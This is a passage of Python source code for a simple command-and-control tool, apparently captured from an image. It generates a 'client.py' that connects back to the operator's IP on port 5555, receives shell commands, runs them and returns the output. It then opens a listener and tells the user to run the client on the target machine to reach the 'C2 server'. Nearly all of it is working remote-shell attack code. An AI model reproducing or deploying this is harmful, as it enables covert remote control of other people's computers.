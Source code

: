 ```


try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("{server_ip}", 5555))
except socket.error:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("{local_ip}", 5555))


while True:
    command = s.recv(1024).decode('utf-8')
    if not command or command == "exit":
        break


    response = execute_command(command)
    s.sendall(response.encode('utf-8'))


s.close()
'''


        with open('client.py', 'w') as client_file:
            client_file.write(client_template.format(server_ip=public_ip, local_ip=local_ip))


        print("Client file created as 'client.py'")
        print("Run the file on the client machine to connect to the C2 server.")
        start_listening()




def start_listening():
    local_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    local_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    local_socket.bind(('0.0.0.0', 5555))
    local_socket.listen(1)


    print("Server is listening on port 5555...")
    client, addr = local_socket.accept()
    print(f"Connection established with {addr[0]}:{addr[1]}")
    handle_client(client)




if __name__ == '__main__':
    main()
```
